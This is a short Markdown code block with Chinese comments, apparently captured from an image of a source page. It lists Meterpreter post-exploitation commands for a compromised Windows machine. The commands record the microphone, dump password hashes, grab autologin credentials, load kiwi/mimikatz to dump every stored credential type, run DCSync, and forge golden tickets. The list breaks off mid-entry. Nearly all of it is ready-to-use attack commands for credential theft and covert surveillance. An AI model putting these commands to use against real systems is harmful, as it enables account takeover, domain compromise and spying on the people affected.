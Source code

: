 ```markdown

# 控制录音
record_mic

# 查看当前处于目标机的那个目录
pwd

# 查看当前目录
getlwd

# 导出当前用户密码哈希 
run hashdump

# 用户名：SID：LM哈希：NTLM哈希:::

# 也可以使用这个命令导出 权限更高   run windows/gather/smart_hashdump

# 抓取自动登录的用户名和密码 
run windows/gather/credentials/windows_autologin

# 直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）
# 首选终端输入  load kiwi    加载kiwi

# 列举所有凭据
creds_all

# 列举所有kerberos凭据
creds_kerberos

# 列举所有msv凭据
creds_msv

# 列举所有ssp凭据
creds_ssp

# 列举所有tspkg凭据
creds_tspkg

# 列举所有wdigest凭据
creds_wdigest

# 通过DCSync检索用户帐户信息
dcsync

# 通过DCSync检索用户帐户NTLM散列、SID和RID
dcsync_ntlm

# 创建黄金票据
golden_ticket_create

# 列举kerberos票据
kerberos_ticket_list

# 清除kerberos票据
kerberos_ticket_purge

# 使用kerberos票据
kerberos_ticket_use

# 执行mimikatz的命令，后面接mimikatz.exe的命令
kiwi_cmd

# dump出lsa的SAM
```